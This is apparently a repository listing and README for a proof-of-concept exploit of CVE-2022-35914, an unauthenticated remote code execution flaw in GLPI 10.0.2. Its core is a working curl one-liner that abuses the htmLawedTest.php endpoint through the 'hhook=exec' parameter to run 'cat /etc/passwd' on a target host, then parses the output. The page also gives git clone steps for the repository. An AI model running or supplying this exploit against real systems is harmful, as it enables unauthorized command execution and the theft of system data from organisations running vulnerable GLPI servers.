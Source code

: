 # CVE-2022-35914

Unauthenticated RCE in GLPI 10.0.2

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/0xGabe](https://github.com/0xGabe) |
| Url      | [https://github.com/0xGabe/CVE-2022-35914](https://github.com/0xGabe/CVE-2022-35914)                                               |
| Stars    | 1                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-35914
Unauthenticated RCE in GLPI 10.0.2

# PoC

```
curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://{{HOST}}/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'
```



## Get the content

```
git clone https://github.com/0xGabe/CVE-2022-35914
cd CVE-2022-35914
```

{% embed url="https://github.com/0xGabe/CVE-2022-35914" %}

<figure><img src="https://avatars.githubusercontent.com/u/68028935?v=4" alt=""><figcaption><p>0xGabe</p></figcaption></figure>
